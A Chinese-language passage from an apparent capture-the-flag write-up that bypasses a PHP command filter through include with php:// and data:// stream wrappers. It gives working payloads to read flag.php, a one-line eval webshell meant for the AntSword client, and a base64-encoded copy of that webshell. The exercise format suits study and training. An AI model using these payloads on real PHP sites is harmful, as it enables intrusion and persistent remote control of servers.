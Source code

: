 得到flag

妈的，开错实例了

分析

![image-20231216114337304](image/image-20231216114337304.png)

过滤了

```
flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(
```

构建命令,利用文件包含include可以不用括号,分号用?>代替

```
?c=include$_GET[a]?>;&a=php://filter/read=convert.base64-encode/resource=flag.php
或者
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>

?c=include$_GET[a]?>&a=各种伪协议

```

介绍一下伪协议吧

```
适用于include（$参数）

data:text/plain,<?=system("tac fla*");?>

data伪协议的格式:

data://text/plain;base64,

data:资源类型(MIME类型);编码,内容


    
1.c=data://text/plain,<?php system("cat fla*");?>
读flag

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=

data类型扩展
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```
